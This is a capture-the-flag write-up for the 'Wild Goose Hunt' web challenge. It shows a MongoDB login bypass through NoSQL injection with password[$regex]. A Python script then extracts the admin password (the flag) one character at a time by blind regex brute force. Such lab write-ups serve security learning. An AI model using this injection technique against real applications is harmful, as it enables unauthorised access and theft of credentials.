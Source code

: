 # Web - Wild Goose Hunt

## Description
> Outdated alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

<br>
<br>

## Walkthrough

In this retired challenge we have a web instance and the challenge code.

I looked at the web instance and saw the following login portal.

![Screenshot0](./screenshots/0.png)

A login attempt through Burp looks like this.

![Screenshot1](./screenshots/1.png)

Now I took a look at the challenge code to get a better idea of what kind of vulnerability we are dealing with here.

Among other things, the file __entrypoint.sh__ was interesting.

```
<SNIP>
# Populate mongodb
mongosh heros --eval "db.createCollection('users')"
mongosh heros --eval 'db.users.insert( { username: "admin", password: "HTB{f4k3_fl4g_f0r_t3st1ng}"} )'
<SNIP>
```

Here we immediately see that we are dealing with __mongoDB__ and our flag is stored as the password of the user `admin`.

So I tried it with __NoSQL Injections__.

I quickly found a login bypass using regular expressions in the query.

![Screenshot2](./screenshots/2.png)

Fine, but how do we exfiltrate the flag?

We can also exfiltrate the flag with the help of `[$regex]` by getting our flag char by char and with the help of the boolean return values we know if our next letter is correct.

For illustration:

![Screenshot3](./screenshots/3.png)

This gives us a negative return value because the password/flag does not continue with a letter `N` after the `{` character.

With a `t` after the open bracket  we get a positive return value from the application, which tells us that our password starts with `HTB{t`, but not with `HTB{N`.

![Screenshot4](./screenshots/4.png)

<br>
<br>

### Solution

Well, I now laboriously got the flag with the Burp intruder char by char until I had it completely bruteforced.

__Flag:__

![Screenshot5](./screenshots/5.png)

<br>
<br>

### Bonus: Script

Well, the challenge was solved but a bit inelegant and laborious.

Since I want to solve this kind of tasks faster and more elegantly with some scripting in the future, I found this challenge a good opportunity to write a small script in python to get the flag.

__Script: solve.py__

```python3
#!/usr/bin/python3
from time import sleep
import sys
import requests


def checkArgs():
    if len(sys.argv) != 3:
        print('Usage: ', sys.argv[0], ' ', '<HOST>', '<IP>')
        sys.exit()

def solve(url,port):
    #Define testing charset
    charset = ['\_','\}','\!','\?']
    charset += [chr(i) for i in range(48, 58)]  #0-9
    charset += [chr(i) for i in range(65, 91)]  #A-Z
    charset += [chr(i) for i in range(97, 123)]  #a-z


    flag = 'HTB{'
    while True:
        for i in charset:
            #Prepare request
            url = 'http://' + host + ':' + port + '/api/login'
            baseData = 'username=admin&password[$regex]=' + flag
            data = baseData + str(i) + '.*'
            headers = {'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'}

            #print data & send
            print('Send:',data)
            resp = requests.post(url,data,headers=headers)
            print('resp:',resp.text)

            #Validate Response
            if 'Login Successful' in resp.text:
                flag += str(i).replace('\\','')
                print('Flag:',flag)

                #Check if flag Completed
                if str(i) == '\}':
                    print('======] STOP [======')
                    print('Flag complete:',flag)
                    sys.exit()

                break

            sleep(0.2)
        print('Flag:',flag)

if __name__ == '__main__':
    print('======] Start [======')
    checkArgs()

    host = sys.argv[1]
    port = sys.argv[2]
    solve(host,port)
```
__Flag:__

![Screenshot6](./screenshots/6.png)




